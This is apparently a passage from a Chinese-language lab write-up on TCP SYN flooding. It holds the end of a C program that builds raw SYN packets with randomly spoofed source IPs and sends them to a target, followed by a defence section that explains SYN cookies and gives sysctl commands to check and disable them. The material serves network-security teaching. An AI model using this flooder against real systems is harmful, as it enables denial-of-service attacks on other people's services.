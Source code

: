 ```c
        tcpheader->dest = htons(DEST_PORT);
        tcpheader->seq = 0;
        tcpheader->ack_seq = 0;
        tcpheader->doff = 5;
        tcpheader->fin=0;
        tcpheader->syn=1;
        tcpheader->rst=0;
        tcpheader->psh=0;
        tcpheader->ack=0;
        tcpheader->urg=0;
        tcpheader->window = htons(666);
        tcpheader->check = in_cksum((unsigned short *)tcpheader,sizeof(tcpheader));
        tcpheader->urg_ptr = 0;

        // 填充IP头部
        ipheader->ihl = 5;
        ipheader->version = 4;
        ipheader->tos = 0;
        ipheader->tot_len = PACKET_LEN;
        ipheader->id = htons(PACKET_LEN);
        ipheader->frag_off = 0;
        ipheader->ttl = 255;
        ipheader->protocol = IPPROTO_TCP;
        ipheader->check = 0;
        ipheader->saddr = rand();
        ipheader->daddr = inet_addr(DEST_IP);
        ipheader->check = in_cksum((unsigned short *)ipheader,ipheader->ihl);

        // printf("ready to send!");
        send_raw_ip_packet(ipheader);
    }
    
    return 0;
}
```

<br>

## 6. 防御

参考：[深入浅出TCP中的SYN-Cookies](https://segmentfault.com/a/1190000019292140) 、[SYN cookie --wiki](https://zh.wikipedia.org/wiki/SYN_cookie)

```shell
// 查看和关闭防御
sudo sysctl -a | grep net.ipv4.tcp_syncookies
sudo sysctl -w net.ipv4.tcp_syncookies=0
```

仅仅从概念上理解。

在ubuntu中，SYN cookie策略是默认开启的。只有当服务器出现大量半连接的时候，SYN cookie策略才会被触发。SYN cookie机制的想法是在服务器**仅收到SYN之后根本不分配资源;仅当服务器收到最终的ACK数据包时才分配资源。这解决了SYN泛洪攻击问题**。
